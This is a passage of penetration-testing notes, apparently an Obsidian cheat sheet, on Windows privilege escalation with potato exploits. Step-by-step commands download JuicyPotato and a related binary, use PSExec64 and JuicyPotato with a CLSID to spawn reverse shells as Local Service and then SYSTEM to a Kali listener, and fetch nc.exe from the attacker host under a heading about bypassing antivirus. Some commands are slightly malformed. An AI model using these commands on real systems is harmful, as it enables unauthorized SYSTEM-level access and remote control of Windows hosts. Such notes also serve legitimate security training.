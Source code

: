 ```command prompt - windows
.\potato.exe -ip $KALI -cmd "reverse.exe" -enable_httpserver true -enable_defender true -enable_spoof true - enable_exhaust true
```

4. Wait for a Windows Defender update, or trigger one manually.


#### Juicy Potato

[https://github.com/ohpe/juicy-potato](https://github.com/ohpe/juicy-potato)

####  64 / 32 bit downloads
```bash - kali
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```bash - kali
wget https://github.com/ivanitlearning/Juicy-Potato-x86/releases/download/1.2/Juicy.Potato.x86.exe
```

(Note: These steps are for Windows 7)

1. Copy PSExec64.exe and the JuicyPotato.exe exploit executable over to Windows.

2. Start a listener on Kali.

![[rlwrap]]

3. Using an administrator command prompt, use PSExec64.exe to trigger a reverse shell running as the Local Service service account:

[[1._Reverse Shells (WIN)#MSFVenom]]

```command prompt - windows
C:\PrivEsc\PSExec64.exe -i -u "ntauthority\local service" C:\PrivEsc\reverse.exe
```

4. Start another listener on Kali.

![[rlwrap]]

5. Now run the JuicyPotato exploit to trigger a reverse shell running with SYSTEM privileges:

```command prompt - windows
C:\PrivEsc\JuicyPotato.exe -l 1337 -p C:\PrivEsc\reverse.exe -t * -c {03ca98d6-ff5d-49b8-abc6-03dd84127020}
```

6. If the CLSID ({03ca…) doesn’t work for you, either check this list:

[https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md](https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md)

or run the GetCLSID.ps1 PowerShell script.

#### NC Netcat bypass AntiVirus
```powershell - windows
Invoke-WebRequest -Uri 'http://$KALI/nc.exe -OutFile nc.exe'
```

